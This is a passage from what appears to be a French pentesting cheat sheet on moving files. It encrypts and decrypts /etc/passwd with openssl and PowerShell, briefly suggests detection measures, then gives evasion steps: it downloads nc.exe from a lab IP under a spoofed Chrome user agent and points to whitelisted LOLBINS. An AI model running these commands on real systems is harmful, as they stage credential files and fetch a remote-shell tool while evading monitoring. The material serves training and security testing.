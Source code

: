 #### OpenSSL

```shell
openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc
```


## FILE DECRYPTION AES256

#### Invoke-AESEncryption.ps1

```powershell
Import-Module .\Invoke-AESEncryption.ps1
```

```powershell
Invoke-AESEncryption -Mode Decrypt -Key 'Passw0rd' -Path .\scan-results.txt
```

#### OpenSSL

```shell
openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd
```


# DETECTION

Faire une whitelist des commandes autorisées (éviter blacklist sujette à bypass).
Surveiller les user-agents avec un SIEM (https://useragentstring.com/pages/useragentstring.php)

# DETECTION EVASION

## Changer le user-agent

Lister les user agents

```powershell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

Download avec UserAgent de Chrome

```powershell
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

## Tester les LOLBINS / LOLBAS qui pourraient être whitelistés [[#GTFOBINS / LOLBAS]]
